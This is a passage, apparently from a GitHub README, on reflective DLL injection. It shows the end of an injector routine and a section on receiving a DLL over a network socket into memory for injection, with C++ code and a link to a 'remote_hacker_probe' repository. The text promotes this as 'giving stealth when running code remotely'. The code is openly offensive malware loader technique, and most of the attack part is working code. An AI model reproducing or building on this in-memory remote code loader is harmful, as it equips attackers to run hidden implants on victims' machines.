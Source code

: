 ```
		WaitForSingleObject( hModule, -1 );

		if (readOutput) {
			printf("\n[+] DLL Output : %s\n", ReadReflectiveDllOutput(seconds).c_str());
		}
		

	} while( 0 );


	if( lpBuffer )
		HeapFree( GetProcessHeap(), 0, lpBuffer );

	if( hProcess )
		CloseHandle( hProcess );


	
	
	

	return 0;
}
```

### Loading the DLL over socket
The DLL can also be loaded over a network using Sockets, And injected.

Sample code :

https://github.com/quantumcored/remote_hacker_probe/blob/main/probe/windows/ProbeCpp.cpp#L257
```
unsigned char* DLL = (unsigned char*) HeapAlloc(GetProcessHeap(), 0, expected + 1); // This is where DLL will be stored
// Where 'expected' is the Size of the dll.

            memset(recvbuf, '\0', BUFFER);
            ZeroMemory(DLL, expected + 1);
            int total = 0;

            do {
                fsize = recv(sockfd, recvbuf, BUFFER, 0);
                if (fsize == SOCKET_ERROR && WSAGetLastError() == WSAECONNRESET)
                {
                    connected = FALSE;
                    // printf("[X] Connection interrupted while receiving DLL\n");
                }
                else if (fsize == 0) {
                    break;
                }
                else {
                    memcpy(DLL + total, recvbuf, fsize);
                    total += fsize;
                }
            } while (total != expected);
// Continue Injecting the DLL.
```
Giving stealth when running code remotely.
